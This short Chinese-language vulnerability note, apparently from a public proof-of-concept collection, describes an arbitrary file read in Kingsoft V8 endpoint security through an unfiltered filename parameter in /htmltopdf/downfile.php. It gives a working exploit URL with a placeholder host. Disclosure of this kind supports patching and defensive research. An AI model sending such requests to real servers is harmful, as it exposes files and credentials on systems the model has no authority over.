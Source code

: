 # 金山 V8 终端安全系统 任意文件读取漏洞


漏洞复现：

存在漏洞的文件 /htmltopdf/downfile.php

文件中没有任何的过滤 通过filename参数即可下载任意文件

poc:

```
http://xxx.xxx.xxx.xxx/htmltopdf/downfile.php?filename=downfile.php

```

from: PeiQi
